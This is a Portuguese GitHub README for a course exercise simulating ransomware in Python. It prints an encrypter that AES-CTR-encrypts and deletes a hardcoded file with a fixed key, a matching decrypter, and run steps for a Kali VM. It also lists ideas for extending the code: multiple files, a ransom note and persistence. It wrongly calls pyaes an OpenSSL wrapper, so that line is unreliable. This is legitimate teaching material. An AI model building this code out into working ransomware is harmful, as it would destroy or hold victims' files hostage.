





<div align="center">

# 🔒 Simulação de Ransomware em Python - DIO Formação Cybersecurity Specialist 🛡️

[](https://www.python.org/)
[](https://www.kali.org/)
[](https://github.com/lehidavet)
[](https://www.dio.me/)

</div>

## 📋 **Descrição do Projeto**

Este projeto simula o funcionamento básico de um **ransomware** usando **Python** e a biblioteca `pyaes` para criptografia **AES-CTR**. O objetivo educacional é entender como ransomwares criptografam arquivos e como revertê-los com uma chave conhecida.

> ⚠️ **ATENÇÃO**: Use **APENAS** em ambiente controlado e isolado (máquinas virtuais) para fins **didáticos**. **NUNCA** execute em sistemas reais!

**Desenvolvido** como desafio da **Formação Cybersecurity Specialist DIO**, inspirado em [cassiano-dio/cibersecurity-desafio-ransomware](https://github.com/cassiano-dio/cibersecurity-desafio-ransomware).

---

## 🛠️ **Tecnologias Utilizadas**



**Instalação da dependência:**
```bash
pip install pyaes
```

---

## 📁 **Estrutura do Projeto**

```text
simulacao-ransomware-kali-python/
├── 🔐 encrypter.py
├── 🔓 decrypter.py
├── 📄 README.md
└── 🖼️ images/
│   ├── ransomware-ls.jpg
│   ├── ransomware-ls-final.jpg
│   ├── ransomware-nano-decrypt.jpg
│   └── ransomware-nano-encrypt.jpg
```
---

## 🚀 **Como Funciona**

### 1️⃣ **Criptografia** (`encrypter.py`)
- Lê `teste.txt`
- Criptografa com **AES-CTR** (chave: `b"testeransomwares"`)
- Remove original
- Salva como `teste.txt.ransomwaretroll`

### 2️⃣ **Descriptografia** (`decrypter.py`)
- Lê arquivo criptografado
- Descriptografa com mesma chave
- Remove criptografado
- Restaura `teste.txt`

**📝 Decisões Técnicas:**
- Chave fixa (demo apenas)
- **CTR mode**: sem padding necessário
- 1 arquivo por execução

---

## 📸 **Demonstração - Kali Linux**

### **📋 Lista inicial de arquivos:**


### **✏️ Editando teste.txt no nano:**


### **🔒 Após criptografia:**


### **🔓 Descriptografando:**


---

### **🔐 encrypter.py**
```python
import os
import pyaes

# Abrir arquivo a ser criptografado
file_name = 'teste.txt'
file = open(file_name, 'rb')
file_data = file.read()
file.close()

# Remover o arquivo original
os.remove(file_name)

# Definir a chave de encriptação
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

# Criptografar o arquivo
crypto_data = aes.encrypt(file_data)

# Salvar o arquivo criptografado
new_file = file_name + '.ransomwaretroll'
with open(new_file, 'wb') as f:
    f.write(crypto_data)

print("💰 Arquivo criptografado! Pague o resgate ou use decrypter.py 🤑")
```

### **🔓 decrypter.py**
```python
import os
import pyaes

# Abrir arquivo criptografado
file_name = 'teste.txt.ransomwaretroll'
with open(file_name, 'rb') as f:
    file_data = f.read()

# Chave de descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

# Remove o arquivo criptografado
os.remove(file_name)

# Criar novo arquivo descriptografado
with open('teste.txt', 'wb') as f:
    f.write(decrypt_data)

print("✅ Arquivo descriptografado com sucesso! 🚀")
```

---

## 🎯 **Como Executar**

```bash
# 1. Crie teste.txt
echo "Este arquivo esta legivel e descriptografado" > teste.txt

# 2. Mostrar arquivos na pasta  
ls

# 3. Criptografar
python encrypter.py

# 4. Verificar (arquivo .ransomwaretroll)
ls
nano teste.txt.ransomwaretroll

# 5. Descriptografar
python decrypter.py

# 6. Mostrar novamente arquivos da pasta  
ls

# 5. Verificar (teste.txt restaurado!)
nano teste.txt
```

✅ **Testado em**: Kali Linux (VirtualBox Home Lab)

---

## 🧠 **Aprendizado & Próximos Passos**

### **✅ O que aprendi:**
- **AES-CTR**: Modo stream cipher (nonce implícito)
- **pyaes**: Wrapper simples para OpenSSL
- **File I/O**: Manipulação segura com `with`

### **🚀 Melhorias futuras:**
- Criptografar **múltiplos arquivos**
- Nota de resgate **HTML**
- Chave derivada (**PBKDF2**)
- Persistência (cron/systemd)

---

## 👤 **Autor**

**Lehi Davet**  
**🔄 Transição de Carreira**: Eng. Mecânico → Cybersecurity  
**📍 Água Verde, Paraná, Brasil**  
**💼 LinkedIn**: [lehidavet](https://linkedin.com/in/lehidavet)  
**🐙 GitHub**: [lehidavet](https://github.com/lehidavet)

<div align="center">
  
[](https://lehidavet.github.io)
[](mailto:lehi_davet@hotmail.com)

</div>

## ⚖️ **Aviso Legal**

**🎓 Simulação 100% educacional.**  
Ransomwares reais são **crimes** (Lei 14.155/2021 - Brasil).

---

*Desenvolvido durante DIO Formação Cybersecurity Specialist • Março 2026 🇧🇷*
